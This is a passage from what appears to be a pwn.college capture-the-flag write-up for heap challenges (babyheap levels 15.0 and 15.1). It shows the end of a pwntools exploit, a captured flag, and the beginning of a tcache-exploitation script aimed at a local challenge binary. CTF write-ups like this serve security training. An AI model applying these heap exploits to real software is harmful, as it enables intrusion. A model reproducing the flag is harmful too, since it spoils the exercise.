 ```python
    read(0, 0x1337)
    target.sendline(p64(win))
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{QyYR-Pj8vuLZgMayMcB0QHW1DKk.0VO5MDL5cTNxgzW}`]

# Level 15.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to obtain the flag.

## Write-up

参见 [Level 15.0](#level-150)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level15.1"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
```
